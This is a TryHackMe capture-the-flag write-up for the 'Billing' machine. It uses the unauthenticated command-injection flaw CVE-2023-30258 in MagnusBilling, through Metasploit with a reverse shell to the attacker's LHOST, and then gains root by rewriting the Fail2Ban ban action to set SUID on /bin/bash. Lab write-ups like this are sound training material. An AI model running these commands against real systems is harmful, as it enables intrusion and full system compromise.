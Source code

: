 # Billing - TryHackMe Writeup

**Difficulty:** Easy  
**TL;DR:** unauthenticated RCE (CVE-2023-30258) → asterisk shell → Privilege Escalation via Fail2Ban
---------------------------
## Target
- Machine: `Billing`  
- Date: `2025-10-6`  
- Environment: TryHackMe / CTF
---------------------------

## Steps 
Initial scan:

```bash
└─$ nmap -sV -sC -Pn -T4 billing.thm

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 49:26:bc:36:00:a8:c7:4d:be:74:1e:21:80:5c:62:f6 (ECDSA)
|_  256 44:16:61:d0:3c:30:ab:1c:fa:61:1a:33:a4:11:40:5a (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-title:             MagnusBilling        
|_Requested resource was http://billing.thm/mbilling/
|_http-server-header: Apache/2.4.62 (Debian)
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
5038/tcp open  asterisk Asterisk Call Manager 2.10.6

```
----------------------

Vulnerability Discovery:

from `| http-title:             MagnusBilling        `

About this service : 
MagnusBilling Open-Source Billing System uses ExtJS, Yii Framework and Asterisk as main the technologies to write a free billing system.

We can see the version of `MagnusBilling` from `http://billing.thm/mbilling/README.md`
it's  `7.x.x`

### CVE-2023-30258

`CVE-2023-30258` :
**Command Injection vulnerability in MagnusSolution magnusbilling 6.x and 7.x allows remote attackers to run arbitrary commands via unauthenticated HTTP request.**

----------------------------

### Exploit and get shell:
I used MetaSploit to exploit 
```bash
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOST billing.thm
RHOST => billing.thm
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST [YOUR_IP]
LHOST => [TOUR_IP]
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run

[+] The target is vulnerable. Successfully tested command injection.

meterpreter > shell
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
python3 -c 'import pty;pty.spawn("/bin/bash")'
asterisk@billing.thm:/var/www/html/mbilling/lib/icepay$ export TERM=xterm
export TERM=xterm
```

## user.txt
 
Retrieve the user flag from `/home/magnus/user.txt`
```bash
asterisk@billing.thm:/home/magnus$ cat user.txt 
THM{[REDACTED]}
```
## root.txt
Time to Privilege Escalation
```bash
asterisk@billing.thm:/home/magnus$ sudo -l
Matching Defaults entries for asterisk on billing.thm:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on billing.thm:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

About this service 

`Fail2Ban` is an intrusion prevention software framework. Written in the Python programming language, it is designed to prevent brute-force attacks.
And the `fail2ban-client` command-line utility used to interact with and control the Fail2Ban server.
The `fail2ban-client` command allows administrators to perform various actions

### Privilege Escalation via Fail2Ban Misconfiguration

1.Modified the Fail2Ban actionban command for the asterisk-iptables jail:
```bash
asterisk@billing.thm:/tmp$ sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
chmod +s /bin/bash
asterisk@billing.thm:/tmp$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 Apr 18  2025 /bin/bash
```
This changed the ban action to set the SUID bit on `/bin/bash` instead of blocking IPs.

2.Then executed a ban command to trigger the modified action:
```
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.1.1.1
asterisk@billing.thm:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 18  2025 /bin/bash
```
3.Launched bash with preserved privileges and get root flag:
```
asterisk@billing.thm:/tmp$ bash -p
bash-5.2# id
uid=1001(asterisk) gid=1001(asterisk) euid=0(root) egid=0(root) groups=0(root),1001(asterisk)
bash-5.2# cat /root/root.txt 
THM{[REDACTED]}
```
